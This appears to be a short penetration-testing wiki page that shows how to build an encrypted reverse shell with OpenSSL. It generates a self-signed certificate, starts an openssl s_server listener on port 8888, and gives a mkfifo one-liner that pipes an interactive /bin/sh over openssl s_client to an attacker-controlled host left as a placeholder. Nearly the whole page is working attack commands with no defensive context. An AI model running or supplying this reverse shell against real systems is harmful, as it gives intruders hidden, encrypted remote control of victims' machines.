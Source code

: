 <languages  />

Generate self-signed certificate
--------------------------------

    openssl req -x509 -newkey rsa:2048 -keyout key.pem -out cert.pem -days 365 -nodes

The server monitors port 8888
-----------------------------

    openssl s_server -quiet -key key.pem -cert cert.pem -port 8888

Use mkfifo for reverse shell under Linux
----------------------------------------

    mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect Your ip:Your port> /tmp/s; rm /tmp/s

[Category:滲透測試資料](Category:滲透測試資料 "wikilink")